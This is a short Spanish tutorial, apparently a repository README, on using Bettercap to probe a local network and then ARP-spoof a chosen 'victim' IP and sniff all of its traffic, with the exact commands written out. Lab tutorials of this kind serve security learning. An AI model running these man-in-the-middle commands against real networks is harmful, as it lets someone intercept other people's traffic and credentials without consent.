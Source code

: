 # Análisis con Bettercap

<p align="center">
<img src="./Img/logo.jpg">
</p>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

## Instalación

```
sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

![Informatica](Img/IP.jpg)

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár.

```
set arp.spoof targets 192.168.1.23

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de la IP víctima.

![Informatica](Img/trafico.png)

